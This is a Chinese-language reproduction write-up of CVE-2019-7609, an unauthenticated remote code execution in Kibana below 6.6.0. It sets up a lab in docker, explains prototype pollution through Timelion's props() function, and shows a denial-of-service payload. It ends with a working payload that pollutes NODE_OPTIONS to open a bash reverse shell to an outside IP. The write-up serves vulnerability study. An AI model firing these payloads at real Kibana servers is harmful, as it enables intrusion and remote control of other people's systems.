 # CVE-2019-7609 kibana < 6.6.0 未授权远程代码命令执行

### 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是Elastic Stack成员之一，设计用于和Elasticsearch协作。

### 二、漏洞影响

kibana < 6.6.0

### 三、复现过程

环境搭建


```bash
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana
```

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：


```bash
docker ps -a --no-trunc  # 找到启动脚本

在node启动命令后加上--inspect=0.0.0.0:9229

docker commit kibana kibana-debug  # 保存修改后的镜像
docker rm -f kibana
docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器
```

kibana控制台：`http://127.0.0.1:5601/` inspect调试器：`chrome://inspect/`

**漏洞分析**

原型链污染点：props()函数可以给对象设置属性

![](images/15891197635776.png)


有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：


```bash
.es(*).props(label.__proto__.cookie="aaa")
```

![](images/15891197771057.png)


要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![](images/15891197834778.png)


DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：


```bash
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs模版引擎中的动态函数调用
```

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了...）。

![](images/15891197991546.png)


作者据此得出结论：kibana在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，

![](images/15891198068627.png)


首先调用normalizeSpawnArguments.apply()处理参数，

![](images/15891198133467.png)


跟进，

![](images/15891198194221.png)


这里实际是在处理child_process.spawn(command[, args][, options])的第三个参数options。

![](images/15891198272957.png)


这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错：`"Starting inspector on 0.0.0.0:9229 failed: address already in use"`。 这句话透露出的是：此时正在创建一个node命令进程，并且使用了`--inpect:0.0.0.0:9229`参数。 这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE_OPTIONS变量，

![](images/15891198456309.png)


通过这个变量，可以覆盖node进程的参数。 也就是说，现在我们能控制node进程的参数了。这就很有用了，比如--eval参数是可以直接执行代码的。

![](images/15891198517887.png)

但是，NODE_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval这种是用不了的。

不过作者找到了另一个参数--require，

![](images/15891198580207.png)


这个有点像php里的auto_prepend_file，预加载一个文件。

![](images/15891198645228.png)


现在我们可以看成有一个文件包含的洞了，怎么RCE呢？ 通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。 作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![](images/15891198713546.png)


最后payload如下：

将POC里的反链IP地址换成自己的，然后在目标机器上的 Timelion 选项下将以下 POC 粘贴进去，然后点击 Run 运行：


```bash
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

然后自己机器开启监听，再点击 Canvas 即可出发漏洞